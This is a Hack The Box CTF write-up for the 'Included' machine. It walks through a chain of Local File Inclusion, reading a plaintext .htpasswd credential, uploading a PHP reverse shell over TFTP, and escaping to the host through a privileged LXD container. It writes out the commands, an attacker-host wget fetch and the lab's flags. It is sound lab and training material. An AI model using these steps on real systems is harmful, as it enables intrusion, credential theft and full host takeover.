

# Included

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Tasks](#tasks)
  * [Apache Basic HTTP Authentication](#apache-basic-http-authentication)
- [User Flag Walkthrough](#user-flag-walkthrough)
- [Root Flag Walkthrough](#root-flag-walkthrough)
  * [LXC Guest Escape](#lxc-guest-escape)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)
- [Attack Timeline](#attack-timeline)

# Context

Lab link: [https://app.hackthebox.com/machines/Included](https://app.hackthebox.com/machines/Included)

Suggested tools: `nmap`, `curl`, `tftp`, `nc`, `python3` (`pty`), `stty`, `su`, `lxd-alpine-builder`, `python3 -m http.server`, `wget`, `lxc`

# Scenario

Included is a very easy Linux machine that features exploiting TFTP, a vulnerable web application and the LXD group. Initial enumeration reveals a web server vulnerable to Local File Inclusion (LFI) which can be leveraged to access a TFTP server and upload a PHP reverse shell for initial access. Credentials can then be extracted from web configuration files to pivot to a higher-privileged user. Finally, privilege escalation can be achieved by leveraging the privileges of the LXD group to mount the host filesystem with elevated privileges in order to get full access to the filesystem.

# Tasks

**Q1**- What service is running on the target machine over UDP?

Answer: TFTP

Reason: A `UDP` scan with `nmap -sU -F` against the target revealed two ports in `open|filtered` state, since initial `TCP` (Transmission Control Protocol) enumeration only showed port `80` open. The scan identified `68/udp` (DHCPC, Dynamic Host Configuration Protocol client) and `69/udp` (TFTP, Trivial File Transfer Protocol). DHCP client traffic does not represent a service exposed for remote interaction in this context, so `69/udp` (TFTP) on host `10.129.17.174` is the relevant answer.

The `open|filtered` state is worth noting: Nmap assigns this status to `UDP` ports when no response is received, since `UDP` is connectionless and a closed port does not reliably trigger an ICMP (Internet Control Message Protocol) port-unreachable reply if firewall rules suppress it. This makes the state ambiguous between "open and silent" and "filtered," requiring follow-up enumeration (such as a TFTP-specific probe) to confirm the service is actually live. `F` in Nmap means "fast scan" (top 100 ports), not full scan

```bash
$ sudo nmap -sU -F -vv 10.129.17.174 | tee nmap_udp_initial.txt
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-18 22:37 -0400
Initiating Ping Scan at 22:37
Scanning 10.129.17.174 [4 ports]
Completed Ping Scan at 22:37, 0.16s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:37
Completed Parallel DNS resolution of 1 host. at 22:37, 0.50s elapsed
Initiating UDP Scan at 22:37
Scanning 10.129.17.174 [100 ports]

Completed UDP Scan at 22:39, 111.21s elapsed (100 total ports)
Nmap scan report for 10.129.17.174
Host is up, received reset ttl 63 (0.046s latency).
Scanned at 2026-06-18 22:37:43 EDT for 111s
Not shown: 98 closed udp ports (port-unreach)
PORT   STATE         SERVICE REASON
68/udp open|filtered dhcpc   no-response
69/udp open|filtered tftp    no-response
```

**Q2**- What class of vulnerability is the webpage that is hosted on port 80 vulnerable to? Give the full name, not an acronym.

Answer: Local File Inclusion

Reason: Browsing the web application on port `80` (`http://10.129.17.174/?file=home.php`) revealed a `file` GET parameter being used to dynamically include PHP (Hypertext Preprocessor) pages, a classic Local File Inclusion (LFI) pattern. User-supplied input controls which file the server includes and executes, rather than the page being restricted to a fixed set of templates, on host `10.129.17.174`.

This pattern is significant because PHP's file-inclusion functions (`include`, `include_once`, `require`, `require_once`) will process whatever path is passed to them, whether that path comes from a hardcoded value or directly from user input. When the latter is true and no validation, allowlisting, or sanitization is applied, an attacker can manipulate the `file` parameter to traverse the filesystem (using sequences like `../../`) and load files never intended to be reachable through the web root. Depending on server configuration, this can escalate from reading sensitive local files to achieving remote code execution, for example through log poisoning or wrapper abuse (`php://filter`, `php://input`, or PHP Archive (PHAR) deserialization).

```bash
$ curl "http://10.129.17.174/?file=home.php"
```


**Q3**- What is the default system folder that TFTP uses to store files?

Answer: `/var/lib/tftpboot/`

Reason: The Local File Inclusion (LFI) vulnerability was used to read the TFTP (Trivial File Transfer Protocol) daemon's configuration file directly off the target via `http://10.129.17.174/?file=/etc/default/tftpd-hpa`. This revealed `TFTP_DIRECTORY="/var/lib/tftpboot"`, confirming the folder TFTP uses to store and serve files on host `10.129.17.174`.

This confirms the exact filesystem path TFTP reads from and writes to. Since TFTP showed as `open|filtered` on `69/udp` earlier, the two findings connect directly: files uploaded over TFTP into `/var/lib/tftpboot` could potentially be included and executed through the same `file` parameter, if that path is reachable via the LFI.

```bash
$ curl "http://10.129.17.174/?file=/etc/default/tftpd-hpa"
# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/var/lib/tftpboot"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-s -l -c"
```

**Q4**- Which interesting file is located in the web server folder and can be used for Lateral Movement?

Answer: `.htpasswd`

Reason: The Local File Inclusion (LFI) vulnerability was leveraged to directly read `/var/www/html/.htpasswd` from the web server's document root via `http://10.129.17.174/?file=/var/www/html/.htpasswd`. Normally `.htpasswd` stores hashed credentials for Basic HTTP Authentication, but this file was misconfigured to store the password in plaintext, directly disclosing valid credentials `mike:Sheffield19`, useful for lateral movement to the `mike` user on host `10.129.17.174`.

This is a misconfiguration stacked on top of the LFI itself: even without the file-inclusion flaw, storing `.htpasswd` entries in plaintext defeats the purpose of Basic HTTP Authentication, since the hashing step (normally `$apr1$` for MD5-based Apache hashes, or `{SHA}` for SHA1) exists specifically so the file can be read without exposing the actual password. The absence of any hash prefix or salt here confirms the credential was stored, not derived from a cracked hash.

```bash
curl "http://10.129.17.174/?file=/var/www/html/.htpasswd"
mike:Sheffield19
```

## Apache Basic HTTP Authentication

Apache's Basic HTTP Authentication restricts access to a directory or resource using a `.htaccess` file that points to a credential store, typically `.htpasswd`. The `.htaccess` file specifies the authentication type and the path to `.htpasswd` using a directive such as `AuthUserFile /var/www/html/.htpasswd`. The `.htpasswd` file itself stores one `username:hash` pair per line, where the hash is normally produced by `htpasswd` using a format like `$apr1$` (Apache MD5) or `{SHA}` (SHA1 Base64).

The exploitation pattern here has two independent layers. First, an attacker needs a way to read `.htpasswd` despite it sitting outside the normal web-accessible response path, since Apache blocks direct HTTP requests to it by default. A Local File Inclusion (LFI) vulnerability, as demonstrated against `10.129.17.174`, is one common vector, but path traversal, misconfigured directory listings, or backup file exposure (`.htpasswd.bak`, `.htpasswd~`) can achieve the same result. Second, once the file is read, the value of the disclosure depends entirely on whether the stored credential is hashed or plaintext. A properly hashed entry still requires offline cracking with a tool like `hashcat` or `john` before it yields a usable password, whereas a plaintext entry, as seen in this case, hands over working credentials immediately.

```bash
$ curl "http://target/?file=/var/www/html/.htpasswd"
$ hashcat -m 1600 hash.txt wordlist.txt
```

# User Flag Walkthrough

1- A target with only TCP port `80` open was scanned for UDP services using `nmap -sU -F`. This revealed TFTP (`69/udp`) alongside DHCP client traffic.

2- The web application on port `80` was found vulnerable to Local File Inclusion (LFI) via its `file` GET parameter (`http://10.129.17.174/?file=home.php`).

3- Using the LFI, the TFTP daemon's configuration (`/etc/default/tftpd-hpa`) was read, confirming its storage directory as `/var/lib/tftpboot`.

4- The web app's own `.htpasswd` file was read directly (`/var/www/html/.htpasswd`), disclosing a misconfigured plaintext credential pair, `mike:Sheffield19`, intended for Basic HTTP Authentication.

5- A PHP reverse shell was uploaded to the TFTP server's storage directory using the TFTP `put` command.

6- Triggering the shell via the LFI parameter (`?file=/var/lib/tftpboot/<shell>.php`), with a netcat listener (`nc -lvnp 1234`) running on the attack box, yielded a low-privilege shell as `www-data`.

7- The shell was upgraded to a full TTY via `python3 -c 'import pty;pty.spawn("/bin/bash")'`, backgrounded with `Ctrl+Z`, and stabilized with `stty raw -echo; fg` plus `export TERM=xterm`.

8- The disclosed credentials were reused to escalate via `su mike` / `Sheffield19`, granting access to `mike`'s home directory and the user flag: `REDACTED`, host `10.129.17.174`.

```bash
$ nmap -sU -F 10.129.17.174
$ curl "http://10.129.17.174/?file=home.php"
$ curl "http://10.129.17.174/?file=/etc/default/tftpd-hpa"
$ curl "http://10.129.17.174/?file=/var/www/html/.htpasswd"
$ tftp 10.129.17.174
tftp> put shell.php
$ curl "http://10.129.17.174/?file=/var/lib/tftpboot/shell.php"
$ nc -lvnp 1234
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ su mike
```

**Q6**- What is the group that user Mike is a part of and can be exploited for Privilege Escalation?

Answer: LXD

Reason: Running `groups` as the `mike` user revealed membership in `lxd` in addition to the primary `mike` group. The `lxd` group is exploitable for privilege escalation because members can interact with the LXD daemon to create and start containers, which can be configured with privileged host filesystem mounts, effectively granting root-equivalent access to the underlying host on `10.129.17.174`.

This works because the LXD (Linux Container Daemon) socket grants its group members full control over container lifecycle and configuration without requiring `root` privileges directly. By creating a container with a security-privileged flag set and mounting the host's root filesystem (`/`) into it as a device, a member of the `lxd` group can read, write, and execute files on the host through the container's mount point, bypassing normal permission boundaries entirely. This is a well-known escalation path on systems where LXD is installed and the daemon is reachable, since group membership alone is sufficient, no exploit code or vulnerability in LXD itself is required.

```bash
$ groups
$ lxc init ubuntu:18.04 privesc -c security.privileged=true
$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
$ lxc start privesc
$ lxc exec privesc /bin/bash
```

**Q7**- When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?

Answer: `alpine`

Reason: When abusing LXD (Linux Container Daemon)/LXC (Linux Containers) group privileges for privilege escalation, a minimal container image is preferred to keep the attack fast and lightweight. The standard choice is Alpine Linux, named after the Alps mountain range, commonly used in tools like `lxd-alpine-builder` to quickly generate an Alpine image for launching a privileged container on `10.129.17.174`.

Alpine's appeal here is purely practical: it is a stripped-down distribution built around `musl` libc and `BusyBox` rather than the full GNU userland, producing images small enough to build and import in seconds rather than minutes. Since the goal of this technique is only to get a privileged shell with the host filesystem mounted in, the container's contents are irrelevant beyond providing a working shell, so a heavier distribution like Ubuntu offers no benefit and only slows down the attack chain. `lxd-alpine-builder` automates pulling the latest Alpine `rootfs` and packaging it into an LXD-importable image, removing the need to configure a remote image server.

**Q8**- What flag do we set to the container so that it has root privileges on the host system?

Answer: `security.privileged=true`

Reason: When initializing the LXD container, the flag `-c security.privileged=true` is set during `lxc init` to disable the container's user namespace isolation, granting it root-equivalent privileges on the host rather than confining it as an unprivileged container — this is the key setting that enables mounting and accessing the host filesystem with full root access, host `10.129.17.174`.

**Q9**- If the root filesystem is mounted at `/mnt` in the container, where can the root flag be found on the container after the host system is mounted?

Answer: `/mnt/root/`

Reason: With the host's root filesystem bind-mounted into the container at `/mnt`, the host's `/root` directory (where `root.txt` typically resides on HTB Linux boxes) is accessible from inside the container at `/mnt/root/`, since the mount preserves the host's original directory structure beneath the mount point.

# Root Flag Walkthrough

1. As `mike`, running `groups` revealed membership in the `lxd` group, exploitable for privilege escalation since LXD lets group members create and run privileged containers. The favored minimal image for this technique is Alpine Linux. An Alpine image was built on the attack machine using `lxd-alpine-builder`, then transferred to the target via a Python HTTP server and `wget` (TFTP was tested first but proved too slow at 512 bytes per block for the ~4MB image).
2. The image was imported with `lxc image import ./alpine-v3.24-x86_64-20260618_2326.tar.gz --alias myimage`, then a privileged container was initialized using the `security.privileged=true` flag (`lxc init myimage <name> -c security.privileged=true`) to disable user namespace isolation and grant root-equivalent host privileges.
3. The host's root filesystem was bind-mounted into the container at `/mnt` via `lxc config device add <name> mydevice disk source=/ path=/mnt recursive=true`, and after starting the container and executing a shell inside it (`lxc exec <name> /bin/sh`), the host's `/root` directory was accessible at `/mnt/root/`, yielding the root flag via `cat /mnt/root/root/root.txt`: `c693d9c7499d9f572ee375d4c14c7bcf`, host `10.129.17.174`.

## LXC Guest Escape

LXC (Linux Containers) Guest Escape (Tactic: Privilege Escalation (TA0004) | Technique: Escape to Host (T1611)): Escaping from containers or other guest systems is a common exploit that might elevate permissions to root. An example of this is the `lxc` Linux container escape vulnerability, where the host filesystem is mounted inside the running container image.

This works because LXD (Linux Container Daemon) group membership alone grants control over container configuration, and the `security.privileged=true` flag disables user namespace isolation, meaning a "root" user inside the container maps directly to root on the host rather than to an unprivileged host UID. Combined with a bind-mounted host filesystem, this gives the container, and anyone with a shell inside it, full read/write access to host files including `/root`, `/etc/shadow`, and SUID (Set User ID) binaries.

```bash
# On attacker machine
git clone <https://github.com/saghul/lxd-alpine-builder.git>
cd lxd-alpine-builder
./build-alpine
python3 -m http.server 8000

# On victim host machine
cd /tmp
wget <http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz>
lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage # import the image into lxc list
lxc image list
# Initialize a new container named 'ignite' based on the existing image 'myimage'.
# Enable privileged mode for the container, which grants it elevated privileges.
lxc init myimage ignite -c security.privileged=true

# Add a new disk device named 'mydevice' to the container 'ignite'.
# Map the source directory '/' from the host to '/mnt/root' within the container.
# Set 'recursive=true' to ensure that the entire directory structure is mounted.
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

# Start the container named 'ignite'.
lxc start ignite

# Execute a shell (/bin/sh) within the running container 'ignite'.
# This allows you to interact with the container's filesystem and execute commands inside it.
lxc exec ignite /bin/sh

# On victim guest container
cd /mnt/root/root # This container has all the files of the host machine, this is actually /root on the host machine
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2026-06-19 02:37 | Reconnaissance | UDP scan (`nmap -sU -F`) reveals TFTP (`69/udp`) and DHCP client (`68/udp`) | T1046 |
| 2026-06-19 ~02:40 (unlogged) | Reconnaissance | LFI discovered in web app via `file` parameter (`?file=home.php`) | T1595.002 |
| 2026-06-19 ~02:41 (unlogged) | Discovery | LFI used to read `/etc/default/tftpd-hpa`, confirming TFTP root at `/var/lib/tftpboot` | T1083 |
| 2026-06-19 ~02:42 (unlogged) | Credential Access | LFI used to read `/var/www/html/.htpasswd`, disclosing plaintext creds `mike:Sheffield19` | T1552.001 |
| 2026-06-19 ~02:45 (unlogged) | Initial Access | PHP reverse shell uploaded via TFTP `put` to `/var/lib/tftpboot/`, triggered via LFI `?file=` parameter | T1190 |
| 2026-06-19 ~02:45 (unlogged) | Execution / C2 | `nc -lvnp 1234` catches reverse shell as `www-data` | T1059.004 |
| 2026-06-19 ~02:46 (unlogged) | Privilege Escalation | TTY upgrade (`pty.spawn`) then `su mike` using disclosed creds, gains `mike` access and `user.txt` | T1078 |
| 2026-06-19 ~03:00 (unlogged) | Discovery | `groups` reveals `mike` is member of `lxd` group | T1069.001 |
| 2026-06-19 03:25–03:26 | Resource Development | Alpine LXD image built locally via `lxd-alpine-builder` (`alpine-v3.24-x86_64-20260618_2326.tar.gz`) | T1587.001 |
| 2026-06-19 ~03:30 (unlogged) | Lateral Tool Transfer | Image served via `python3 -m http.server` and pulled to target with `wget` (TFTP transfer attempted first, abandoned for speed) | T1105 |
| 2026-06-19 03:34 | Privilege Escalation | `lxc image import` loads Alpine image as `myimage` on target | T1611 |
| 2026-06-19 ~03:35 (unlogged) | Privilege Escalation | Privileged container created (`security.privileged=true`) with host `/` bind-mounted at `/mnt` | T1611 |
| 2026-06-19 ~03:36 (unlogged) | Privilege Escalation | `lxc exec ... /bin/sh` into container, reads `/mnt/root/root/root.txt` as root | T1611 |

## Text Tree

```powershell
HTB Included (10.129.17.174)
│
├── 80 -- Web app (Local File Inclusion via ?file= param)
│   ├── ?file=/etc/default/tftpd-hpa
│   │   └── confirms TFTP_DIRECTORY="/var/lib/tftpboot"
│   │
│   └── ?file=/var/www/html/.htpasswd
│       └── mike:Sheffield19 (plaintext, misconfigured)
│           │
│           ├── 69/udp -- TFTP (writable, root /var/lib/tftpboot)
│           │   └── put shell.php -> /var/lib/tftpboot/shell.php
│           │       └── ?file=/var/lib/tftpboot/shell.php (LFI trigger)
│           │           └── nc -lvnp 1234
│           │               └── shell as www-data
│           │                   └── su mike (Sheffield19)
│           │                       │
│           │                       ├── /home/mike/user.txt
│           │                       │   └── [USER FLAG] a56ef91d70cfbf2cdb8f454c006935a1
│           │                       │
│           │                       └── groups -- mike lxd
│           │                           └── lxd-alpine-builder (build Alpine image)
│           │                               └── python3 -m http.server + wget (image transfer)
│           │                                   └── lxc image import ... --alias myimage
│           │                                       └── lxc init myimage ignite -c security.privileged=true
│           │                                           └── lxc config device add ignite mydevice disk source=/ path=/mnt recursive=true
│           │                                               └── lxc exec ignite /bin/sh
│           │                                                   └── /mnt/root/root/root.txt
│           │                                                       └── [ROOT FLAG] c693d9c7499d9f572ee375d4c14c7bcf
```

# Artifacts

**Hosts / Network**

| Type | Value | Notes |
| --- | --- | --- |
| Target IP | `10.129.17.174` | HTB Included |
| Attacker IP | `10.10.14.155` | Used for reverse shell + HTTP server |
| Port | `80/tcp` | Web app, LFI vector |
| Port | `69/udp` | TFTP, writable, root `/var/lib/tftpboot` |
| Port | `68/udp` | DHCP client (incidental, not exploited) |
| Listener port | `1234/tcp` | netcat reverse shell catcher |
| HTTP server port | `8080/tcp` (or default `8000`) | `python3 -m http.server`, Alpine image transfer |

**Credentials**

| User | Secret | Source | Notes |
| --- | --- | --- | --- |
| `mike` | `Sheffield19` | `/var/www/html/.htpasswd` via LFI | Stored in plaintext (misconfigured) |

**Files**

| Path | Location | Purpose |
| --- | --- | --- |
| `/etc/default/tftpd-hpa` | target | Confirmed TFTP root dir |
| `/var/www/html/.htpasswd` | target | Leaked creds |
| `/var/lib/tftpboot/shell.php` | target (uploaded) | PHP reverse shell payload |
| `test.php` | local working dir | Early/discarded test upload |
| `alpine-v3.24-x86_64-20260618_2326.tar.gz` | local + target `/tmp` (or import dir) | Privileged container image |

**Flags / Hashes**

| Type | Value |
| --- | --- |
| `user.txt` | `a56ef91d70cfbf2cdb8f454c006935a1` |
| `root.txt` | `c693d9c7499d9f572ee375d4c14c7bcf` |

**Tools / Commands of note**

| Tool | Usage |
| --- | --- |
| `nmap -sU -F` | UDP service discovery |
| `curl ?file=...` | LFI exploitation, incl. `php://filter/convert.base64-encode/resource=` |
| `tftp` (`put`) | Initial payload delivery |
| `nc -lvnp 1234` | Reverse shell catcher |
| `lxd-alpine-builder` | Built minimal Alpine image |
| `lxc image import` / `init` / `config device add` / `exec` | LXD privileged container escape |

# Lab Insights

1. A Local File Inclusion vulnerability is rarely limited to "reading PHP files" — any file the web server process can read becomes part of the attack surface, including service configuration files that disclose internal infrastructure details. Reading /etc/default/tftpd-hpa through the LFI didn't leak credentials directly, but it converted a read-only bug into a roadmap for where to push an executable payload, since it revealed the exact filesystem path (/var/lib/tftpboot) that a second, unrelated service (TFTP) would serve back out over HTTP (T1083).
2. Pairing a read primitive with a write primitive on a different protocol is often more valuable than either alone. The LFI could read files but not write them; TFTP could write files but had no execution context of its own. Neither vulnerability alone grants code execution, but TFTP's open, anonymous write access to a directory that the LFI could subsequently include() turned two low-severity findings into a complete remote code execution chain (T1190).
3. Storing application-layer credentials in plaintext inside a file meant for HTTP Basic Authentication defeats the entire purpose of using a credential store. A .htpasswd file is expected to contain salted hashes specifically so that disclosure (e.g., via misconfigured permissions or, here, LFI) doesn't directly yield usable credentials — but a plaintext .htpasswd collapses that protection, and because the same password was reused for the OS-level account mike, a single file read led directly to a full shell-equivalent identity, not just web panel access (T1552.001).

# Attack Timeline


